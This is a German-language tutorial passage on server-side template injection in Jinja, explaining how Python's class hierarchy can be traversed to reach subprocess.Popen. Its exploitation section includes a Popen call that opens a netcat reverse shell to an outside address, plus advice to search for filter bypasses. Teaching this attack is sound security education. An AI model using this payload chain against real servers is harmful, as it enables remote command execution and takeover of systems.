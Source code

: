 # Server-Side Template Injection (SSTI)

Web-Applikationen verwenden Template-Engines um dynamische Inhalte zu
präsentieren. Anstatt eine Seite starr zu kodieren, wird ein Template
server-seitig in einer Datenbank gespeichert (z.B. als String/Text).
Wird die Seite angezeigt, wird das Template mit den aktuellen Daten
kombiniert und die resultierende Seite angezeigt. Häufig können
eingeloggte Benutzer (im Folgenden Autoren genannt) Templates
server-seitig modifizieren und auf diese Weise das Layout modifizieren.

Durch die Verwendung von Templates ergeben sich Vorteile:

- Content-Autoren können Templates modifizieren (z.B. mittels eines
  WYSIWYG–Editor innerhalb des Administrationsbereichs) ohne auf den
  Source-Code der Applikation Zugriff zu benötigen.

- Die verwendeten Template-Sprachen sind zumeist einfacher als
  ,,volle” Programmiersprachen und können daher auch leichter
  angelernt werden und erlauben es so einem größeren Benutzerkreis die
  Inhalte der Webseite zu modifzieren.

- Die Daten, auf welche ein Template zugreifen kann, können limitiert
  werden. Auf diese Weise können Content-Autoren nur auf ein Subset
  der server-seitigen Daten zugreifen.

Natürlich ergeben sich auch Angriffsmöglichkeiten. Kann ein Angreifer
ein Template modifizieren und anschließend zur Ausführung bringen,
besitzt er die Möglichkeit am Server Code (innerhalb der
Template-Engine) auszuführen. Nun benötigt er noch die Möglichkeit, aus
dem Template-System auszubrechen und in der zugrunde liegenden Umgebung
(z.B. in die Web-Applikation) Befehle auszuführen. Dies wäre dann eine
Remote Command Execution (RCE).

## Beispiel Template System: Jinja (Python)

Eine häufig verwendete Template Engine in Python-basierten
Web-Applikationen ist Jinja[8]. In einem Template werden primär zwei
verschiedene Kommando-Tags zum Inkludieren von Daten bzw. Kommandos
verwendet:

```jinja
<ul>
    {% for item in somelist %}
      <li> {{ item }} </li>
    {% endfor %}
</ul>
```

Dieses Jinja/HTML-Fragment baut eine Aufzählungsliste (mittels dem
ul-Tag). Es verwendet Template-Tags um eine Python-for-Schleife zu
inkludieren. Diese Schleife iteriert über die somelist Liste und
inkludiert jedes Item in einem li-Element.

## Exploitation

In einem typischen Szenario hat der Angreifer bereits Zugriff auf ein
System erlangt und kann sowohl ein Template bearbeiten als auch
ausführen. Dies kann z.B. durch Erlangen eines CMS-Autor-Accounts
innerhalb der Weboberfläche geschehen. Innerhalb dieser Oberfläche kann
der Angreifer ein Template (z.B. für versendete Emails) modifizieren als
auch, z.B. als ,,Preview”, anzeigen (und dadurch das Template zur
Exekution bringen).

Der Angreifer verwendet hierfür z.B. die gezeigen {{ …}} Tags. Er
besitzt allerdings nur Zugriff auf Objekte, welche in das Template vom
System hinein übergeben wurden. Bei unserem Beispiel wäre dies die Liste
somelist. Hier kann er allerdings das Python-Typsystem ausnutzen um
Zugriff auf weitere Objekte zu erlangen. Schlussendlich will der
Angreifer zu einem Objekt bzw. zu einer Klasse gelanten, welche ihm die
Ausführung von Code am Server erlaubt.

In Python kann über das Attribut \_\_class\_\_ auf die Klasse eines
Objekts zugegriffen werden, die Methode mro liefert sowohl die eigene
Klasse als auch alle Elternklassen eines Objektes:

```python
somelist = [1,2,3]
somelist.__class__         # -> <type 'list'>
somelist.__class__.mro()   # -> [<type 'list'>, <type 'object'>]
obj_class = somelist.__class__.mro()[1]
```

Somit erhaltne wir über ,,somelist.\_\_class\_\_.mro()” alle Klassen
(inklusive vererbter Klassen) des Objekts ,,somelist”. In Python erben
alle Klassen von der Elternklasse ,,Object” welche wir über die
Array-Position 1 selektieren und der Variablen ,,obj\_class” zuweisen.
Klassen in Python besitzen die Methode ,,\_\_subclasses\_\_” welche eine
Liste von allen aktuell bekannten Subklassen zurück liefert. Diese Liste
ist dynamisch sowohl die Elemente, als auch die Reihung jener, kann zur
Laufzeit variieren.

Ein Angreifer kann diese Liste ausgeben und eine potentiell verwundbare
Klasse, wie z.B. ,,subprocess.Popen” suchen und über den Index diese
Klasse selektionen. Nehmen wir an, dass diese Klasse in unserem Beispiel
auf Array Position 42 vorhandne war. Durch Hinzufügen von ,,()” wird nun
der Konstruktor der Klasse aufgerufen, hierbei können Parameter
angegeben werden. Bei ,,Popen” kann ein Array mit Parametern übergeben
werden. Diese werden zusammenkopiert und beim Aufruf des Konstruktors
als Systemkommando ausgeführt:

```python
obj_class = somelist.__class__.mro()[1]
obj_class.__subclasses__()[42]   # -> <class 'subprocess.Popen'>
obj_class.__subclasses__[42](["nc", "10.0.0.1", "443", "-e", "/bin/sh"])
```

Bei diesem Beispiel wird somit als Kommando `ns 10.0.0.1 443 -e /bin/sh` aufgerufen: dieses Kommando baut eine reverse-shell auf, ein
Angreifer erhält auf diese Weise Shell-Zugriff auf den Server mit den
Rechten der Web-Applikation.

Webapplikationen versuchen häufig, Benutzereingaben in Templates auf
Schadcode hin zu überprüfen. Dies ist problematisch da Templates viele
Möglichkeiten bieten, Schadcode zu verschleiern und auf diese Weise
Absicherungen zu umgehen[9]. Als Angreifer sucht man in diesem Fall am
Besten nach ,,bypass” und dem Namen der verwendeten Template-Engine.

Ein Exploit gegen ein Template-System kann selten zu 100% statisch
erfolgen da die Liste der Subklassen von ,,Object” dynamisch ist: sowohl
die Elemente als auch deren Position ist von der Laufzeitumgebung
abhängig und kann sich bei jedem Start der Webapplikation verändern. Ein
Angreifer wird daher zumeist mehrstufig vorgehen und nach Erlangen des
Zugriffs auf das CMS initial versuchen aussichtsreiche Objekt-Klassen
und deren Position (im Subklassen-Array) zu identifizieren. Anschließend
wird er versuchen, erfolgversprechende Klassen zu instanzieren und auf
diese Weise Schadcode auszuführen.
